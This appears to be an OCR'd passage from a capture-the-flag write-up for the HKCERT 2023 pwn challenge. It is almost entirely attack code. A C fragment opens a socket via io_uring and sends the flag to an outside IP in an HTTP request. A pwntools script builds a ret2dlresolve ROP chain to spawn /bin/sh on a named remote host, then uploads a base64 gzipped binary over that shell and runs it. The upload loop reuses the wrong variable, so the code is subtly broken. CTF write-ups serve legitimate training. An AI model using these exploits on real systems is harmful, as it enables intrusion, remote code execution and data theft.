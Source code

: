```c
    sqe->rw_flags = 0;
    io_uring_submit(&ring);
    io_uring_wait_cqe(&ring, &cqe);

    int sockfd = cqe->res;

    strcat(message, "GET /");
    strcat(message, flag);
    strcat(message, " HTTP/1.1\r\n");
    strcat(message, "Connection: close\r\n\r\n");

    // socket connection

    struct sockaddr_in info;
    bzero(&info,sizeof(info));
    info.sin_family = PF_INET;

    // ip & port
    info.sin_addr.s_addr = inet_addr(ip);
    info.sin_port = htons(port);

    int err = connect(sockfd, (struct sockaddr *)&info, sizeof(info));
    send(sockfd, message, 0x100,0);

    return 0;
}
```

### Exploit script
```python
from pwn import *
from base64 import b64encode
import gzip
context.binary = elf = ELF("./chall")
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])

rop.gets(dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
#io = remote("127.0.0.1", 1337)
io = remote("chal.hkcert23.pwnable.hk", 28352)
payload = flat({120: 0x000000000040101a,128:raw_rop,256:dlresolve.payload})
io.sendline(payload)
sleep(0.2)
io.sendline(dlresolve.payload)
print("sent")

size = 512 # size per upload

io.sendline('cd /tmp')
io.sendline('rm b64exp.gz')
info("Uploading...")
for i in range(0, len(payload), size):
    print(f"Uploading... {i:x} / {len(payload):x}")
    #sleep(0.1)
    io.sendline('echo "{}" >> b64exp.gz'.format(payload[i:i+size]))

io.sendline('base64 -d b64exp.gz > exp.gz')
io.sendline('gzip -d exp.gz')
io.sendline('chmod +x /tmp/exp')
io.sendline('/tmp/exp')

```